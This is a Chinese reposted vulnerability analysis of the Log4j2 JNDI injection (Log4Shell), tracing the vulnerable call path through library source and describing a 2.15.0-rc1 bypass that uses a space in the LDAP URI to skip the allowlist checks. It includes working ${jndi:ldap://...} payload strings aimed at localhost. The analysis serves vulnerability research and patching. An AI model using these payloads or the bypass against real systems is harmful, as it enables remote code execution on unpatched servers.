## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.15.0-rc1 bypass requires explicitly enabled lookups; rc2 URISyntaxException returns null

代码与实验材料：Detailed logger→formatter→JNDI flow and explicit lookups demonstration; code collapsed to single lines with escaped braces; exact JDK and exploitable LDAP response not pinned

来源证据范围：Original WeChat URL and xz.aliyun.com/t/10649 present

- **事实待核（1）**：Frontmatter version contains code, not version；依据：version: @Overridepublic StringBuilder...。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：Historical prerelease finding needs date and advisory association, not a current all-version bypass claim。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：Absolute exploit mechanism statement unsupported and should be limited to demonstrated chain；依据：RCE一定需要加载远程对象。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Apache Log4j2 从 RCE 到 RC1 绕过

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0wTxODQBvHrJuV2qtqNnNA)

Apache Log4j2 从 RCE 到 RC1 绕过
============================

本文首发于先知社区：https://xz.aliyun.com/t/10649

0x00 介绍
-------

`Log4j2`是`Java`开发常用的日志框架，该漏洞触发条件低，危害大，由阿里云安全团队报告

POC 比较简单

```
public static void main(String[] args) throws Exception {    logger.error("${jndi:ldap://127.0.0.1:1389/badClassName}");}
```

截图如下



0x01 RCE 分析
-----------

首先来看 RCE 是怎样的原理，先来一段又臭又长的流程分析

看看从`logger.error`到`JndiLookup.lookup`中间经历了些什么

从`logger.error()`层层跟到`AbstractLogger.tryLogMessage.log`方法

```
private void tryLogMessage(final String fqcn,                           final StackTraceElement location,                           final Level level,                           final Marker marker,                           final Message message,                           final Throwable throwable) {    try {        log(level, marker, fqcn, location, message, throwable);    } catch (final Exception e) {        handleLogMessageException(e, fqcn, message);    \}\}
```

不动态调试的情况下跟`log`方法会到`AbstractLogger.log`方法，实际上这里是`org.apache.logging.log4j.core.Loggger.log`方法

```
@Overrideprotected void log(final Level level, final Marker marker, final String fqcn, final StackTraceElement location,                   final Message message, final Throwable throwable) {    final ReliabilityStrategy strategy = privateConfig.loggerConfig.getReliabilityStrategy();    if (strategy instanceof LocationAwareReliabilityStrategy) {        // 触发点        ((LocationAwareReliabilityStrategy) strategy).log(this, getName(), fqcn, location, marker, level,                                                          message, throwable);    } else {        strategy.log(this, getName(), fqcn, marker, level, message, throwable);    \}\}
```

跟入这里的`log`方法到`org/apache/logging/log4j/core/config/DefaultReliabilityStrategy.log`

```
@Overridepublic void log(final Supplier<LoggerConfig> reconfigured, final String loggerName, final String fqcn,                final StackTraceElement location, final Marker marker, final Level level, final Message data,                final Throwable t) {    loggerConfig.log(loggerName, fqcn, location, marker, level, data, t);}
```

进入`LoggerConfig.log`方法

```
@PerformanceSensitive("allocation")    public void log(final String loggerName, final String fqcn, final StackTraceElement location, final Marker marker,        final Level level, final Message data, final Throwable t) {        // 无需关心的代码        ...        try {            // 跟入            log(logEvent, LoggerConfigPredicate.ALL);        } finally {            ReusableLogEventFactory.release(logEvent);        }    }
```

进入`LoggerConfig`另一处重载`log`方法

```
protected void log(final LogEvent event, final LoggerConfigPredicate predicate) {    if (!isFiltered(event)) {        // 跟入        processLogEvent(event, predicate);    \}\}
```

```
private void processLogEvent(final LogEvent event, final LoggerConfigPredicate predicate) {    event.setIncludeLocation(isIncludeLocation());    if (predicate.allow(this)) {        // 关键点        callAppenders(event);    }    logParent(event, predicate);}
```

可以看到调用`appender.control`的`callAppender`方法

```
@PerformanceSensitive("allocation")protected void callAppenders(final LogEvent event) {    final AppenderControl[] controls = appenders.get();    //noinspection ForLoopReplaceableByForEach    for (int i = 0; i < controls.length; i++) {        controls[i].callAppender(event);    \}\}
```

层层跟入到`AppenderControl.tryCallAppender`方法

```
private void callAppender0(final LogEvent event) {    ensureAppenderStarted();    if (!isFilteredByAppender(event)) {        // 跟入        tryCallAppender(event);    \}\}
```

```
private void tryCallAppender(final LogEvent event) {    try {        // 跟入        appender.append(event);    } catch (final RuntimeException error) {        handleAppenderError(event, error);    } catch (final Exception error) {        handleAppenderError(event, new AppenderLoggingException(error));    \}\}
```

进入`AbstractOutputStreamAppender.append`方法，进入到`directEncodeEvent`方法

```
protected void directEncodeEvent(final LogEvent event) {    getLayout().encode(event, manager);    if (this.immediateFlush || event.isEndOfBatch()) {        manager.flush();    \}\}
```

关注其中的`encode`方法跟入到`PatternLayout.encode`方法

```
@Overridepublic void encode(final LogEvent event, final ByteBufferDestination destination) {    if (!(eventSerializer instanceof Serializer2)) {        super.encode(event, destination);        return;    }    final StringBuilder text = toText((Serializer2) eventSerializer, event, getStringBuilder());    final Encoder<StringBuilder> encoder = getStringBuilderEncoder();    encoder.encode(text, destination);    trimToMaxSize(text);}
```

不用关心多余的代码，这里触发点在`toText`方法

```
private StringBuilder toText(final Serializer2 serializer, final LogEvent event,                             final StringBuilder destination) {    return serializer.toSerializable(event, destination);}
```

```
@Overridepublic StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {    final int len = formatters.length;    for (int i = 0; i < len; i++) {        // 发现其中某一处format方法触发漏洞        formatters[i].format(event, buffer);    }    if (replace != null) {        String str = buffer.toString();        str = replace.format(str);        buffer.setLength(0);        buffer.append(str);    }    return buffer;}
```

这里的`formatters`方法包含了多个`formatter`对象，其中出发漏洞的是第 8 个，其中包含`MessagePatternConverter`



跟入看到调用了`Converter`相关的方法

```
public void format(final LogEvent event, final StringBuilder buf) {    if (skipFormattingInfo) {        converter.format(event, buf);    } else {        formatWithInfo(event, buf);    \}\}
```

不难看出每个`formatter`和`converter`为了构造日志的每一部分，这里在构造真正的日志信息字符串部分



跟入`MessagePatternConverter.format`方法，看到核心的部分

```
@Overridepublic void format(final LogEvent event, final StringBuilder toAppendTo) {    final Message msg = event.getMessage();    if (msg instanceof StringBuilderFormattable) {        final boolean doRender = textRenderer != null;        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;        final int offset = workingBuilder.length();        if (msg instanceof MultiFormatStringBuilderFormattable) {            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);        } else {            ((StringBuilderFormattable) msg).formatTo(workingBuilder);        }        if (config != null && !noLookups) {            for (int i = offset; i < workingBuilder.length() - 1; i++) {                // 是否以${开头                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}                    final String value = workingBuilder.substring(offset, workingBuilder.length());                    workingBuilder.setLength(offset);                    // 跟入replace方法                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));                }            }        }        if (doRender) {            textRenderer.render(workingBuilder, toAppendTo);        }        return;    }    if (msg != null) {        String result;        if (msg instanceof MultiformatMessage) {            result = ((MultiformatMessage) msg).getFormattedMessage(formats);        } else {            result = msg.getFormattedMessage();        }        if (result != null) {            toAppendTo.append(config != null && result.contains("${")                              ? config.getStrSubstitutor().replace(event, result) : result);        } else {            toAppendTo.append("null");        }    \}\}
```

进入`StrSubstitutor.replace`方法

```
public String replace(final LogEvent event, final String source) {    if (source == null) {        return null;    }    final StringBuilder buf = new StringBuilder(source);    // 跟入    if (!substitute(event, buf, 0, source.length())) {        return source;    }    return buf.toString();}
```

跟入`StrSubstitutor.subtute`方法，存在递归，逻辑较长

主要作用是递归处理日志输入，转为对应的输出

```
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,                       List<String> priorVariables) {    ...    substitute(event, bufName, 0, bufName.length());    ...    String varValue = resolveVariable(event, varName, buf, startPos, endPos);    ...    int change = substitute(event, buf, startPos, varLen, priorVariables);}
```

其实这里是出发漏洞的必要条件，通常情况下程序员会这样写日志相关代码

`logger.error("error_message:" + info);`

黑客的恶意输入有可能进入`info`变量导致这里变成

`logger.error("error_message:${jndi:ldap://127.0.0.1:1389/badClassName}");`

这里的递归处理成功地让`jndi:ldap://127.0.0.1:1389/badClassName`进入`resolveVariable`方法



经过调试确认了关键方法`resolveVariable`

```
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,                                 final int startPos, final int endPos) {    final StrLookup resolver = getVariableResolver();    if (resolver == null) {        return null;    }    // 进入    return resolver.lookup(event, variableName);}
```

跟入这里的`lookup`可以看到很多师傅们截图的方法

```
@Overridepublic String lookup(final LogEvent event, String var) {    if (var == null) {        return null;    }    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);    if (prefixPos >= 0) {        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);        final String name = var.substring(prefixPos + 1);        // 关键        final StrLookup lookup = strLookupMap.get(prefix);        if (lookup instanceof ConfigurationAware) {            ((ConfigurationAware) lookup).setConfiguration(configuration);        }        String value = null;        if (lookup != null) {            // 这里的name是：ldap://127.0.0.1:1389/badClassName            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);        }        if (value != null) {            return value;        }        var = var.substring(prefixPos + 1);    }    if (defaultLookup != null) {        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);    }    return null;}
```

这里的`strLookupMap`中包含了多种`Lookup`对象



类似地，可以看这样利用

```
logger.error("${java:runtime}");// 打印00:36:26.312 [main] ERROR Main - Java(TM) SE Runtime Environment (build 1.8.0_131-b11) from Oracle Corporation
```

跟入`JndiLookup.lookup`

```
@Overridepublic String lookup(final LogEvent event, final String key) {    if (key == null) {        return null;    }    final String jndiName = convertJndiName(key);    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {        // 跟入lookup        return Objects.toString(jndiManager.lookup(jndiName), null);    } catch (final NamingException e) {        LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);        return null;    \}\}
```

最后触发点`JndiManager.lookup`

```
@SuppressWarnings("unchecked")public <T> T lookup(final String name) throws NamingException {    return (T) this.context.lookup(name);}
```

0x03 RC1 修复绕过
-------------

修复版本`2.15.0-rc1`

跟了下流程发现到`PatternLayout.toSerializable`方法发生了变化

不过这里的变化没有什么影响，其中的`formatters`属性的变化导致了`${}`不会被处理

```
@Overridepublic StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {    for (PatternFormatter formatter : formatters) {        formatter.format(event, buffer);    }    return buffer;}
```

上文提到这里某个`formatter`包含了`MessagePatternConverter`

在修复后变成了`MessagePatternConverter.SimplePatternConverter`类



可以发现在这个类中变成了直接拼接字符串的操作，不去判断`${}`这种情况

```
private static final class SimpleMessagePatternConverter extends MessagePatternConverter {    private static final MessagePatternConverter INSTANCE = new SimpleMessagePatternConverter();    @Override    public void format(final LogEvent event, final StringBuilder toAppendTo) {        Message msg = event.getMessage();        // 直接拼接字符串        if (msg instanceof StringBuilderFormattable) {            ((StringBuilderFormattable) msg).formatTo(toAppendTo);        } else if (msg != null) {            toAppendTo.append(msg.getFormattedMessage());        }    \}\}
```

注意到另一个子类`LookupMessagePatternConverter`

如果`Converter`被设置为该类，那么会继续进行`${}`的处理

```
private static final class LookupMessagePatternConverter extends MessagePatternConverter {    private final MessagePatternConverter delegate;    private final Configuration config;    LookupMessagePatternConverter(final MessagePatternConverter delegate, final Configuration config) {        this.delegate = delegate;        this.config = config;    }    @Override    public void format(final LogEvent event, final StringBuilder toAppendTo) {        int start = toAppendTo.length();        delegate.format(event, toAppendTo);        // 判断${}        int indexOfSubstitution = toAppendTo.indexOf("${", start);        if (indexOfSubstitution >= 0) {            config.getStrSubstitutor()                // 进入了上文的流程                .replaceIn(event, toAppendTo, indexOfSubstitution, toAppendTo.length() - indexOfSubstitution);        }    \}\}
```

具体需要设置为哪一个子类取决于用户的配置

```
private static final String LOOKUPS = "lookups";private static final String NOLOOKUPS = "nolookups";public static MessagePatternConverter newInstance(final Configuration config, final String[] options) {    boolean lookups = loadLookups(options);    String[] formats = withoutLookupOptions(options);    TextRenderer textRenderer = loadMessageRenderer(formats);    // 默认不配置lookup功能    MessagePatternConverter result = formats == null || formats.length == 0        ? SimpleMessagePatternConverter.INSTANCE        : new FormattedMessagePatternConverter(formats);    if (lookups && config != null) {        // 只有用户进行配置才会触发        result = new LookupMessagePatternConverter(result, config);    }    if (textRenderer != null) {        result = new RenderingPatternConverter(result, textRenderer);    }    return result;}
```

于是想办法开启`lookup`功能分析后续有没有限制

```
final Configuration config = new DefaultConfigurationBuilder().build(true);// 配置开启lookup功能final MessagePatternConverter converter =    MessagePatternConverter.newInstance(config, new String[] {"lookups"});final Message msg = new ParameterizedMessage("${jndi:ldap://127.0.0.1:1389/badClassName}");final LogEvent event = Log4jLogEvent.newBuilder()    .setLoggerName("MyLogger")    .setLevel(Level.DEBUG)    .setMessage(msg).build();final StringBuilder sb = new StringBuilder();converter.format(event, sb);System.out.println(sb);
```

成功开启`lookups`功能，调用`LookupMessagePatternConverter.fomat`方法



递归处理等过程均没有变化，最后`JndiManager.lookup`触发漏洞的地方进行了修改

```
public synchronized <T> T lookup(final String name) throws NamingException {    try {        URI uri = new URI(name);        if (uri.getScheme() != null) {            // 允许的协议白名单            if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {                LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());                return null;            }            if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {                // 允许的host白名单                if (!allowedHosts.contains(uri.getHost())) {                    LOGGER.warn("Attempt to access ldap server not in allowed list");                    return null;                }                Attributes attributes = this.context.getAttributes(name);                if (attributes != null) {                    Map<String, Attribute> attributeMap = new HashMap<>();                    NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();                    while (enumeration.hasMore()) {                        Attribute attribute = enumeration.next();                        attributeMap.put(attribute.getID(), attribute);                    }                    Attribute classNameAttr = attributeMap.get(CLASS_NAME);                    // 参考下图我们这种Payload不存在javaSerializedData头                    // 所以不会进入类白名单判断                    if (attributeMap.get(SERIALIZED_DATA) != null) {                        if (classNameAttr != null) {                            // 类名白名单                            String className = classNameAttr.get().toString();                            if (!allowedClasses.contains(className)) {                                LOGGER.warn("Deserialization of {} is not allowed", className);                                return null;                            }                        } else {                            LOGGER.warn("No class name provided for {}", name);                            return null;                        }                    } else if (attributeMap.get(REFERENCE_ADDRESS) != null                               || attributeMap.get(OBJECT_FACTORY) != null) {                        // 不允许REFERENCE这种加载对象的方式                        LOGGER.warn("Referenceable class is not allowed for {}", name);                        return null;                    }                }            }        }    } catch (URISyntaxException ex) {        // This is OK.    }    return (T) this.context.lookup(name);}
```

看看实际运行中，这几个白名单是怎样的



默认的协议是：`java`，`ldap`，`ldaps`

默认数据类型是八大基本数据类型

默认的 Host 白名单是`localhost`

实际上拦住`Payload`是在最后一处`OBJECT_FACTORY`判断



由于 RCE 一定需要加载远程对象，那么避免不了`javaFactory`属性（或者有一些其他思路，笔者刚做 Java 安全不了解）

看起来无懈可击，然而这里有一处细节问题

```
public synchronized <T> T lookup(final String name) throws NamingException {    try {        URI uri = new URI(name);        ...    } catch (URISyntaxException ex) {        // This is OK.    }    return (T) this.context.lookup(name);}
```

如果发生了`URISyntaxException`异常会直接`this.context.lookup`

能否想办法让`new URI(name);`时候报错但`name`传入`context.lookup(name);`时正常

经过测试发现`URI`中不进行`URL`编码会报这个错，加个空格即可触发`${jndi:ldap://127.0.0.1:1389/ badClassName}`



成功 RCE（需要用户开启`lookup`功能的基础上才可以）



0x04 RC2 修复
-----------

RC2 的修复方案是直接 return，有效解决了上文的绕过

```
try{} catch (URISyntaxException ex) {    LOGGER.warn("Invalid JNDI URI - {}", name);    return null;}return (T) this.context.lookup(name);
```

不过再 RC2 的修复情况下发现另外的漏洞，很鸡肋，后续分析

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
